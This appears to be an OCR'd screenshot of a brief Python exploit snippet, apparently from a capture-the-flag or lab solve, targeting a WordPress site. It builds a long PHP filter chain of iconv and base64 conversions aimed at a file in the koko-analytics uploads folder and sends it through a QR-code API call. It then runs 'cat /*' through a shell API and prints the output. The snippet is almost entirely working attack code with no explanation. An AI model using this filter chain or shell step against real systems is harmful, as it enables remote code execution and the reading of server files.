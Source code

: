         x = "php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/var/www/html/wp-content/uploads/koko-analytics/sss.php"
        res = await api.qrcode(x, "xxx", print_option=False, code_type="code128a", size=1)
        res = await api.shell("cat /*")
        print(res.text)
